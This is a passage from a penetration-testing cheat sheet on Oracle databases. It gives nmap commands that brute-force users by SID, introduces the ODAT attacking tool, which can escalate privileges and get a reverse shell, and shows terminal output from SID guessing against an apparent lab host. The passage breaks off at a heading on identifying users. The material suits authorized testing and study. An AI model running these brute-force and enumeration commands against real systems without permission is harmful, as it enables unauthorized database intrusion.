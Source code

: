 brute force users using the SID:

`nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL <host>`

or

```
nmap --script oracle-enum-users --script-args oracle-enum-users.sid=ORCL,userdb=orausers.txt -p 1521-1560 <host>
```

### ODAT

[https://github.com/quentinhardy/odat
](https://github.com/quentinhardy/odat)

ODAT (Oracle Database Attacking Tool) is an open source penetration testing tool that tests the security of Oracle Databases remotely.&#x20;

Usage examples of ODAT:&#x20;

* You have an Oracle database listening remotely and want to find valid SIDs and credentials in order to connect to the database&#x20;
* You have a valid Oracle account on a database and want to escalate your privileges to become DBA or SYSDBA&#x20;
* You have a Oracle account and you want to execute system commands (e.g. reverse shell) in order to move forward on the operating system hosting the database&#x20;

Tested on Oracle Database 10g, 11g, 12c and 18c.&#x20;

**Install**: download the latest release from the github repo

**Examples**:&#x20;

#### Identify SIDs&#x20;

```
root@kali:/opt/odat-libc2.5-i686# odat sidguesser -s 10.10.10.82 
 
[1] (10.10.10.82:1521): Searching valid SIDs 
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server 
[+] 'XE' is a valid SID. Continue... 
[+] 'XEXDB' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:49 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521) 
100% |#####################################################################################################################################################| Time: 00:00:09 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521) 
[+] 'XE' is a valid SID. Continue... 
100% |#####################################################################################################################################################| Time: 00:03:20 
[+] SIDs found on the 10.10.10.82:1521 server: XE,XEXDB 
```

#### identify users:

